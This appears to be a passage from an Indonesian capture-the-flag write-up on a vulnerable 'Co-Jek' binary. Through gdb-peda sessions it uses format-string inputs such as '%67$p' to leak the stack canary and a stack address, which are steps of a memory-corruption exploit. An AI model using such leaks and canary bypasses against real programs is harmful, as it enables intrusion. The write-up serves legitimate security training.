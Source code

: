 
Ada beberapa output yang memiliki nullbyte diakhir, coba debug binary leak pada offset 63.

```py
  Legend: code, data, rodata, value
  0x08048671 in main ()
  gdb-peda$ i r $eax
  eax            0xb376ff00       0xb376ff00
```
Canary adalah 0xb376ff00, continue dengan command `c` dan masukkan nama "%63$p".
```py
  gdb-peda$ c
  Continuing.
  Selamat Datang di Co-Jek
  Masukan Nama Anda:
  >> %63$p
  Hai 0xf7ffd000!
  ...
```
Hmm, ternyata offset 63 bukan merupakan canary. Lakukan pada offset berikutnya tadi dengan cara seperti diatas, dan ditemukan canary pada offset ke-67.

```py
  0x08048671 in main ()
  gdb-peda$ i r $eax
  eax            0xb1b3b000       0xb1b3b000
  gdb-peda$ c
  Continuing.
  Selamat Datang di Co-Jek
  Masukan Nama Anda:
  >> %67$p
  Hai 0xb1b3b000!
  Masukan alamat : 
  ```

Selajutnya adalah mencari address stack. Dari semua offset, saya menggunakan offset 2.

```py
  0x080486cc in main ()                                                                     
  gdb-peda$ ni                                                                
  Hai 0xd1ea3200||0xffffcd1a! 
     ...
     0x80486f0 <main+168>:        call   0x8048460 <gets@plt>
  => 0x80486f5 <main+173>:        add    esp,0x10
     0x80486f8 <main+176>:        sub    esp,0xc
     ...
  [------------------------------------stack-------------------------------------]
  0000| 0xffffcca0 --> 0xffffccb6 ("AAAABBBBCCCC")
  ...
  gdb-peda$ p 0xffffcd1a-0xffffccb6
  $1 = 0x64
```

Alamat yang bocor pada offset 2 adalah `0xffffcd1a`, sementara alamat stack adalah `0xffffccb6`. Selisih/jarak alamat pada offset 2 dan alamat stack adalah `0x64`. Maka untuk mendapatkan alamat stack, leak pada offset 2 lalu kurangi `0x64`.
